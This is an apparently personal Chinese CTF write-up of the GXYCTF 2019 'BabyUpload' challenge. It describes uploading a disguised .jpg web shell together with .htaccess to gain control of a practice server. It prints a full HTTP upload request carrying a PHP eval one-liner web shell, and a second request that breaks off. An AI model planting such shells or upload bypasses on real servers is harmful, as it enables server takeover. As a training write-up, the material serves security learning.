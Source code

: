 # 2021/07/16

## BabyUpload

> GXYCTF 2019

### 题目

这道题和[你传你M呢](#你传你M呢)是同一类型的题，都是上传`webshell.jpg`配合`.htaccess`来解析控制服务器

### payload

```http
POST / HTTP/1.1
Host: 7911356d-7ed4-4340-a593-87f6de5b393e.node4.buuoj.cn
Content-Length: 336
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://7911356d-7ed4-4340-a593-87f6de5b393e.node4.buuoj.cn
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryzMAUFel4paiiSDAr
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.124 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://7911356d-7ed4-4340-a593-87f6de5b393e.node4.buuoj.cn/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: UM_distinctid=17a7701d69cded-0a36b994c25fd8-6373264-384000-17a7701d69d9e0; PHPSESSID=adef9ced961114c0cb0d697c6bd8e03e
Connection: close

------WebKitFormBoundaryzMAUFel4paiiSDAr
Content-Disposition: form-data; name="uploaded"; filename="bme.jpg"
Content-Type: image/jpeg

<script language='php'>eval($_POST['bme']);</script>
------WebKitFormBoundaryzMAUFel4paiiSDAr
Content-Disposition: form-data; name="submit"

涓婁紶
------WebKitFormBoundaryzMAUFel4paiiSDAr--
```

```http
POST / HTTP/1.1
Host: 7911356d-7ed4-4340-a593-87f6de5b393e.node4.buuoj.cn
Content-Length: 430
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://7911356d-7ed4-4340-a593-87f6de5b393e.node4.buuoj.cn
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryzMAUFel4paiiSDAr
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.124 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://7911356d-7ed4-4340-a593-87f6de5b393e.node4.buuoj.cn/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: UM_distinctid=17a7701d69cded-0a36b994c25fd8-6373264-384000-17a7701d69d9e0; PHPSESSID=adef9ced961114c0cb0d697c6bd8e03e
Connection: close

------WebKitFormBoundaryzMAUFel4paiiSDAr
```
